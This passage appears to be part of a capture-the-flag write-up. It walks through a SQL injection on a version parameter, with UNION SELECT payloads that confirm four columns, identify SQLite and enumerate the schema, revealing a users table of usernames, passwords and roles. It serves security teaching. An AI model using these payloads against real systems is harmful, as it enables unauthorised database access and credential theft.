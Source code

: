 Output :

```text
{"message": "Invalid version!"}
```

But with :

```python
VERSION = '0.0.2"'
```

There is no response.This seems to indicate we could have broken the SQL request.

We can continue our exploration by confirming there are 4 columns with :

```python
VERSION = '0.0.2" UNION SELECT 1,2,3,4;-- '
```

We can confirm this is a SQLite database with :

```python
VERSION = '0.0.2" UNION SELECT sqlite_version(),2,3,4;-- '
```

```text
{"message": {"id": "3.37.2", "version": 2, "released_date": 3, "downloads": 4}}
```

This is a SQLite engine version "3.37.2". 

We can use some SQL tips from : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

We can also get the schema of the table :

```python
VERSION = '0.0.2"UNION SELECT sql,2,3,4 from sqlite_schema-- -'
```

output:

```text
{"message": {"id": "CREATE TABLE versions (id INTEGER PRIMARY KEY AUTOINCREMENT, version TEXT, released_date DATE, downloads INTEGER)", "version": 2, "released_date": 3, "downloads": 4}}
```

This is the table "versions" with 4 columns. Let's continue to enumerate tables :

```python
VERSION = '0.0.2"UNION SELECT sql,2,3,4 from sqlite_schema where sql not like "CREATE TABLE versions %"-- -' # list tables
```

output :
```text
{"message": {"id": "CREATE TABLE users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT, password DATE, role TEXT)", "version": 2, "released_date": 3, "downloads": 4}}
```



```python
VERSION = '0.0.2"UNION SELECT sql,2,3,4 from sqlite_schema where sql not like "CREATE TABLE versions %" and sql not like "CREATE TABLE users %"-- -' # list tables
```
